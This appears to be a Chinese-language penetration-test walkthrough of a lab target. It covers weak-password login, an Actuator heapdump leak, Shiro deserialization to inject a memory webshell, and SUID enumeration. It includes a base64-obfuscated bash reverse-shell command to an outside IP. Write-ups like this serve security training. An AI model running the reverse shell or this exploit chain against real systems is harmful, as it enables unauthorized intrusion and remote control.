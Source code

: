 访问http://39.99.139.1:8080/，弱口令admin/admin123登录，但未发现可进一步利用的点

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106214851-ivvsrhj.png?imageSlim)​

根据fscan的回显，发现Shiro特征，jsessionid同时有acatuator泄露

### Actuator 配置漏洞

访问/actuator/heapdump可下载heapdump

```
E:\Penetration_tools\Java\JDumpSpider>java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump > 1.txt
Loading heap dump heapdump from cache failed.
java.io.IOException: HPROF time mismatch. Cached 1725335049001 from heap dump 1736171505575
        at org.graalvm.visualvm.lib.jfluid.heap.HprofHeap.<init>(HprofHeap.java:385)
        at org.graalvm.visualvm.lib.jfluid.heap.HeapFactory.loadHeap(HeapFactory.java:96)
        at org.graalvm.visualvm.lib.jfluid.heap.HeapFactory.createHeap(HeapFactory.java:79)
        at org.graalvm.visualvm.lib.jfluid.heap.HeapFactory.createHeap(HeapFactory.java:55)
        at org.graalvm.visualvm.lib.jfluid.heap.GraalvmHeapHolder.<init>(GraalvmHeapHolder.java:18)
        at cn.wanghw.Main.call(Main.java:66)
        at cn.wanghw.Main.main(Main.java:29)
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106215542-thna7oo.png?imageSlim)​

### shiro 反序列化 打入内存马

使用shiro反序列化利用工具

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106220027-tunignj.png?imageSlim)​

直接注入内存马

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106220652-aqkm0vc.png?imageSlim)​

冰蝎4.0连过去

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106220903-fmgxsc3.png?imageSlim)​

并不是root权限，得提权

弹shell出去

```
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDYuNzUuMzcvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}'
# bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/6666 0>&1
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250106223544-gjl5bob.png?imageSlim)​

查找具有 SUID权限的文件

```
app@web01:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/vim.basic
/usr/bin/su
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/at
/usr/bin/passwd
```
